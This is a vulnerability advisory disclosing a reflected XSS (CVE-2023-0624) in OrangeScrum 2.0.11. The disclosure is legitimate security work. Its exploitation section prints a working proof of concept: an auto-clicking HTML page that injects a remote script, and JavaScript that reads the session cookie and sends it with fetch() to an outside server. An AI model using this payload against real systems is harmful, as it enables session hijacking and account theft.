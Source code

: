 ```yaml
---
slug: advisories/oberhofer/
title: OrangeScrum 2.0.11 - Reflected XSS via filename
authors: Carlos Bello
writer: cbello
codename: oberhofer
product: OrangeScrum 2.0.11
date: 2023-02-13 12:00 COT
cveid: CVE-2023-0624
severity: 7.3
description: OrangeScrum 2.0.11 - Reflected Cross-Site Scripting via filename
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, XSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                         |
| --------------------- | ------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via filename         |
| **Code name**         | [Oberhofer](https://en.wikipedia.org/wiki/Oberhofer)    |
| **Product**           | OrangeScrum                                             |
| **Affected versions** | 2.0.11                                                  |
| **State**             | Public                                                  |
| **Release Date**      | 2023-02-13                                              |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Reflected cross-site scripting (XSS)                                                                   |
| **Rule**              | [008. Reflected cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/008)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 7.3                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0624](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0624)                          |

## Description

OrangeScrum version 2.0.11 allows an external attacker to obtain arbitrary
user accounts from the application. This is possible because the application
returns malicious user input in the response with the content-type set to
text/html.

## Vulnerability

This vulnerability occurs because the application returns malicious user input
in the response with the content-type set to text/html.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit.html

```html
<!DOCTYPE html>
<html>
    <body>
        <a id="exploit" href="https://retr02332bughunter.orangescrum.com/defect/defects/download?filename=%3Cscript+type=%27text/javascript%27+src=%27https://retr02332.com/exploit-utils.js%27%3E%3C/script%3E"> Exploit</a>
        <script>
            document.getElementById("exploit").click();
        </script>
    </body>
</html>
```

The malicious JavaScript that we embed in the page is as follows.

### Exploit-utils.js

```js
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

let sessionCookie = `USER_UNIQ=${getCookie("USER_UNIQ")}`;

fetch("https://retr02332.com/leak?"+sessionCookie);
```

Thus, when the user clicks on the malicious link, it will send its session
cookie to the attacker's server logs.

## Evidence of exploitation

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/216176343-4430e676-1622-4af1-a866-3f773e6f6682.png)

<video width="835" height="505" controls>
    <source src="https://rb.gy/yvhpbc"
    type="video/mp4">
    <p>POC-XSS-OrangeScrum</p>
</video>

![cookie-leak-orangescrum](https://user-images.githubusercontent.com/51862990/216176496-96c7ad03-4a72-4eb3-adad-1f614f8ff508.png)

## Our security policy

We have reserved the ID CVE-2023-0624 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-02-07"
  contacted="2023-02-07"
  replied="2023-02-07"
  confirmed=""
  patched=""
  disclosure="2023-02-13">
</time-lapse>
